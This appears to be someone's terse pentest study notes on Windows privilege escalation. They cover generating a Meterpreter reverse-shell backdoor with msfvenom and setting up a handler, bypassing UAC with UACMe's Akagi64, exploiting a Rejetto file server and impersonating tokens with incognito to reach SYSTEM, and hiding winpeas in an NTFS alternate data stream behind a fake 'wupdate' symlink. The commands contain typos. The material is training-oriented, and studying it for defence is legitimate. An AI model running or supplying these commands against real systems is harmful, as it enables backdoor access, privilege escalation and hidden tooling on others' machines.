 - UACMe github 
<another-msfconsole>
- generate payload 
- msfvenom -p windows/meterpreter/reverse_tcp Lhost= Lport -f exe > 'backdoor.exe'
<another-msfconsole>
- use multi/handler
- set payload windows/meterpreter/reverse_tcp
<continue-to-privious-meterpreter>
- mkdir
- upload backdoor.exe
- upload /root/Desktop/tools/UACME/Akagai64.exe
- shell
- .\Akagi64.exe 23 C:\Temp\backdoor.exe
- sysinfo
<privious-shell-2>
- sysinfo
- getprivis
- ps 
- migrat 688

### Access Token Impersonation
- file server rejetto port 80
- nmap <target-ip>
- search rejetto
- use set run
- sysinfo
- pgrep explorer
- migrate <ps-id>
- generats error
- getprivs
- load incognito
- list_tokens -u
- impersonate_token "<username-as-it-is>"
- getuid
- pgrep explorer
- migrate <ps-id>
- getprivs
- repeat from list_tokens -u try to get NT AUTHORITY/SYSTEM
-


## Windows File System Vulnerabilities
- resources stream and data stream 
- notepad test.txt:secret.txt
- dir
- winpeas.exe
- type winpeas.exe > winwodslog.txt:winpeas.exe
- start windowslog.txt
- cd \
- cd Windows\System32
- mklink wupdate.exe C:\Temp\windowslog.txt:winpeas.exe
- wupdate
